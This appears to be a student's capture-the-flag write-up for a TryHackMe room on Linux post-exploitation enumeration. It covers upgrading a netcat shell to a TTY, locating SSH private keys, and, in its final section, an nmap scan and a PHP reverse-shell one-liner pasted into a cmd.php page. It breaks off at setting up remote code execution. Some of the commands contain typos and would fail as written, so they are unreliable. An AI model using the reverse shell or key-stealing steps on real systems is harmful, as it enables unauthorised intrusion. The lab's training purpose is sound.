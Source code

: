 Linux Local Enumerations
########################
:Author: David Boyd
:Date: 2020-11-10

[Task 1] Introduction
*********************

Have you ever found yourself in a situation where you have no idea about "what
to do after getting a reverse shell (access to a machine)"?
If your answer was "Yes", this room is definitely for you. This rooms aims at
providing beginner basis in box enumeration, giving a detailed approach towards
it.

Here's a list of units that are going to be covered in this room:

+------+-----------------------+----------------------------------------------+
| Unit | Title                 | Description                                  |
+======+=======================+==============================================+
| 1    | Stabilizing the shell | Exploring a way to transform a reverse shell |
|      |                       | into a stable bash or ssh shell.             |
+------+-----------------------+----------------------------------------------+
| 2    | Basic enumaration     | Enumerate OS and the most common files to    |
|      |                       | identify possible security flaws.            |
+------+-----------------------+----------------------------------------------+
| 3    | /etc                  | Understand the purpose and sensitivity of    |
|      |                       | files under /etc directory.                  |
+------+-----------------------+----------------------------------------------+
| 4    | Important files       | Learn to find files, containing potentially  |
|      |                       | valuable information.                        |
+------+-----------------------+----------------------------------------------+
| 6    | Enumeration scripts   | Automate the process by running multiple     |
|      |                       | community-created enumeration scripts.       |
+------+-----------------------+----------------------------------------------+

[Task 2] Unit 1 - tty
*********************

tty (text terminal)
	nc shells are fragile and delicate--so fix it by getting a normal shell.
	Commands like **su** and **sudo** require a proper terminal to run (ie tty)

Pythonic TTY

.. code-block:: Python

	# "Upgrade" your shell to TTY using Python
	python -c 'import pty;pyt.spawn("/bin/bash")'


`Upgrading Shells <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys>`_

1. How do you execute /bin/bash with perl?

Answer:

.. code-block:: Bash

	perl -e 'exec "bin/bash";'

Walkthrough: Hacky trial and error of perl one-liners!

[Task 3] Unit 1 - SSH
*********************

The 'id_rsa' defaults to the home/user/.ssh/id_rsa(.pub) location. Get that
file on your system and give it read-only permissions (chmod 600 id_rsa) and
connect by executing ssh -i id_rsa user@ip)

1. Where can you usually find the id_rsa file? (User = user)

Answer: /home/user/.ssh/id_rsa

2. Is there an id_rsa file on the bos (yay/nay)?

Answer: nay

[!THM] BREAK
************

It seems I need access now.  Let's break in.

1. Find open ports

.. code-block:: Bash

	nmap -T5 -A $TM
		> 3000/tcp open

2. Invesitgate those ports

Firefox > $TM:3000 > Copy php payload
	- (php -r '$sock=fsockopen("{IP}",{PORT}});exec("/bin/sh -i <&3 >&3 2>&3");'

Firefox > $TM:3000/cmd.php > Paste & edit IP,PORT

3. Set up RCE


